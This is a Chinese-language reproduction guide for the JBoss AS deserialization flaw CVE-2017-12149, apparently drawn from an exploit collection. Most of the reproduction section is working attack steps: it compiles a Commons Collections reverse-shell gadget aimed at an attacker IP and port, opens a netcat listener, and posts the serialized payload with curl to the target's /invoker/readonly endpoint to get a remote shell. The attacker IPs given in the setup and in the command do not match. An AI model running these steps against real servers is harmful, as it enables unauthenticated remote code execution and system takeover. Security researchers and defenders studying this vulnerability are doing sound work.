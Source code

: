 # （CVE-2017-12149）JBosS AS 6.X 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2017-12149）JBosS AS 6.X 反序列化漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2017-12149）JBosS AS 6.X 反序列化漏洞.html)

## 一、漏洞简介

JBOSSApplication Server 反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞危害程度为高危(High)。

## 二、漏洞影响

JBoss 5.x - 6.x

## 三、复现过程

win7 一台,ip 为 172.26.1.125（靶机，安装了 java 环境)

kali 一台,ip 为 192.168.1.192（攻击机）

进入[http://172.26.1.125:8080/invoker/readonly](http://172.26.1.125:8080/invoker/readonly),若显示状态码为 500 的报错界面，则证明漏洞是存在的 ![image](img/1497773afc39c7b93d9857323c92ad52.png)

进入攻击机 kali,下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 执行命令:javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.73.131:4444（IP 是攻击机 ip,4444 是要监听的端口) 新界面开启 nc 准备接收反弹过来的 shell。命令:nc -lvnp 4444

这个时候在这个目录下生成一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了

curl [http://172.26.1.125:8080/invoker/readonly](http://172.26.1.125:8080/invoker/readonly) --data-binary @ReverseShellCommonsCollectionsHashMap.ser ![image](img/89d83bfb583439a1e4a50720c47f7129.png)

这时候我们再看 nc，发现 shell 已经弹回来了. ![image](img/de6db8089d7d74eead74e5a38868bc62.png)


